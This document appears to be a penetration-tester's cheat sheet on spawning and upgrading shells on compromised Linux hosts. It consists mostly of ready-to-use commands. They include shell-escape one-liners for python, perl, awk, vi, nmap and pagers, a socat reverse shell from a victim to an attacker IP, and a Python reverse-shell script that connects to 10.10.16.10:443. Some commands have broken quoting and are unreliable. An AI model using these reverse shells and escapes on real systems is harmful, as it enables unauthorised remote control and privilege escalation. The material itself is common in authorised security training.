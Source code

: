 # Spawning shells

## Non-interactive tty-shell

If you have a non-tty-shell there are certain commands and stuff you can't do. This can happen if you upload reverse shells on a webserver, so that the shell you get is by the user www-data, or similar. These users are not meant to have shells as they don't interact with the system has humans do.

So if you don't have a tty-shell you can't run `su`, `sudo` for example. This can be annoying if you manage to get a root password but you can't use it.

Anyways, if you get one of these shells you can upgrade it to a tty-shell using the following methods:

**Using python**

```
python -c 'import pty; pty.spawn("/bin/sh")'
python3 -c 'import pty; pty.spawn("/bin/sh")'
```

**Echo**

```
echo 'os.system('/bin/bash')'
```

**sh**

```
/bin/sh -i
```

**bash**

```
/bin/bash -i
```

**Perl**

```
perl -e 'exec "/bin/sh";'
perl: exec "/bin/sh";
```

**Ruby**

```
ruby: exec "/bin/sh"
```

**Awk**

```
awk 'BEGIN {system("/bin/sh")}'
```

**Find**

```
find / -name blahblah 'exec /bin/awk 'BEGIN {system("/bin/sh")}' \;
```

**More, less, or man**

Type more, less, or man command with a file then try one of the following:

```
'! /bin/sh'
'!/bin/sh'
'!bash'
```

**Lua**

```
lua: os.execute('/bin/sh')
```

**From within IRB**

```
exec "/bin/sh"
```

**From within VI**

```
:!bash
```

or

```
:set shell=/bin/bash:shell
```

or execute

```
vi ;/bin/bash
```

once exit vi \(:q!\) we would get a shell. Helpful in scenarios where the user is asked to input which file to open

**From within nmap**

```
!sh
```

## Interactive tty-shell

### **Method \#1**

# Python pty module {#method1pythonptymodule}

```
python -c 'import pty; pty.spawn("/bin/bash")' 
```



### Method \#2

# Using socat {#method2usingsocat}

So if you manage to upgrade to a non-interactive tty-shell you will still have a limited shell. You won't be able to use the up and down arrows, you won't have tab-completion. This might be really frustrating if you stay in that shell for long. It can also be more risky, if a execution gets stuck you cant use Ctr-C or Ctr-Z without killing your session. However that can be fixed using socat. Follow these instructions.

**On Kali \(listen\):**

    socat file:`tty`,raw,echo=0 tcp-listen:4444  

**On Victim \(launch\):**

```
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<AttackerIP>:4444
```

[https://github.com/cornerpirate/socat-shell](https://github.com/cornerpirate/socat-shell)

### Method \#3

**Using stty**

```
# In reverse shell
$ python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z

# In Kali
$ stty raw -echo
$ fg

# In reverse shell
$ reset
$ export SHELL=bash
$ export TERM=xterm-256color
$ stty rows <num> columns <cols>
```

## Misc: Simple Reverse Shell

```
echo "import socket" > script.py
echo "import subprocess" >> script.py
echo "import os" >> script.py
echo "s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)" >> script.py
echo 's.connect(("10.10.16.10",443))' >> script.py
echo "os.dup2(s.fileno(),0)" >> script.py
echo "os.dup2(s.fileno(),1)" >> script.py
echo "os.dup2(s.fileno(),2)" >> script.py
echo 'p=subprocess.call(["/bin/sh","-i"])' >> script.py
```

## References:

[http://unix.stackexchange.com/questions/122616/why-do-i-need-a-tty-to-run-sudo-if-i-can-sudo-without-a-password](http://unix.stackexchange.com/questions/122616/why-do-i-need-a-tty-to-run-sudo-if-i-can-sudo-without-a-password)  
[http://netsec.ws/?p=337](http://netsec.ws/?p=337)  
[http://pentestmonkey.net/blog/post-exploitation-without-a-tty](http://pentestmonkey.net/blog/post-exploitation-without-a-tty)

[https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)

